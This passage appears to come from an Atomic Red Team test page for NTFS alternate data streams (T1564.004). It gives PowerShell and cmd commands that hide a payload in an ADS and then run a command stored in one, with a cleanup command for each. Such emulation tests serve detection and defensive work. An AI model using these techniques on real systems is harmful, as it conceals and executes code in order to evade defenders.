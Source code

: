 
#### Attack Commands: Run with `powershell`! 


```powershell
if (!(Test-Path C:\Users\Public\Libraries\yanki -PathType Container)) {
    New-Item -ItemType Directory -Force -Path C:\Users\Public\Libraries\yanki
    }
Start-Process -FilePath "$env:comspec" -ArgumentList "/c,type,#{payload_path},>,`"#{ads_file_path}:#{ads_name}`""
```

#### Cleanup Commands:
```powershell
Remove-Item "#{ads_file_path}" -Force -ErrorAction Ignore
```





<br/>
<br/>

## Atomic Test #3 - Create ADS command prompt
Create an Alternate Data Stream with the command prompt. Write access is required. Upon execution, run "dir /a-d /s /r | find ":$DATA"" in the %temp%
folder to view that the alternate data stream exists. To view the data in the alternate data stream, run "notepad T1564.004_has_ads.txt:adstest.txt"

**Supported Platforms:** Windows


**auto_generated_guid:** 17e7637a-ddaf-4a82-8622-377e20de8fdb





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| file_name | File name of file to create ADS on. | string | %temp%&#92;T1564.004_has_ads_cmd.txt|
| ads_filename | Name of ADS. | string | adstest.txt|


#### Attack Commands: Run with `command_prompt`! 


```cmd
echo cmd /c echo "Shell code execution."> #{file_name}:#{ads_filename}
for /f "usebackq delims=?" %i in (#{file_name}:#{ads_filename}) do %i
```

#### Cleanup Commands:
```cmd
del #{file_name} >nul 2>&1
```
